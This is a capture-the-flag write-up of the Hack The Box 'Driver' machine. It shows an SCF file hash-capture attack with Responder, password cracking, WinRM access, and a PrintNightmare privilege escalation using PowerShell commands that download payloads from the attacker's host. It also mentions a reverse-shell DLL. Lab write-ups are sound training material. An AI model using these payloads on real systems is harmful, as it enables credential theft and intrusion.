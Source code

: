# Driver Write-Up
Hi everyone, let's start to h4ck !
## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02 Octobre 2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/web_lock.png)

And, sometimes, it works :)

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/website.png)

When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/hash_responder.png)

We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/spoolsv.png)

We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```
![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/exploited.png)

Finally, open a new session with the new user and you will be in the Administrator group.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/net_user.png)

Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Driver/root.jpg)

And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
